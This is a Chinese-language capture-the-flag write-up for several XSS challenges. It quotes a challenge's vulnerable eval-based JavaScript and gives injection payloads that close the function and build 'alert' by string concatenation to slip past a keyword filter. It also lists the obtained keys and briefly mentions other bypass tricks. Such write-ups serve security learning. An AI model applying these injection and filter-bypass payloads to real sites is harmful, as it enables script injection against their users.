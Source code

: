 <hr/>


#0x04 Base5

XSS第二道题，看源码，有个翔一样的函数：

```
    window.onerror=function(){
		return true;
	}

	function blue(){
		if(shit==""){
			var shit=1;
			eval(shit);
		}
	}
	
	blue();
```

还过滤了alert直接闭合掉函数：

```
    "){};var b='al'+'ert()';eval(b);if(shit="
```

毫无悬念：

```
    Why are you so diao!! so key=Ve07G73@edy
```

<hr/>


#0x05 Base6

XSS第三道题,payload：

```
    ''){};var b='al'+'ert(1)';eval(b);if(shit=''
```

结果弹窗就是没有key，直接找客服要![](http://evilddog.qiniudn.com/xss3.jpg)

```
    16otkN03_4$$ly
```

<hr/>


#0x06 Base7

<hr/>


XSS第四道题，表示不会据说有两种方法，一是用unicode的换行符，而是用IE的条件编译来绕过注释 
    
<hr/>
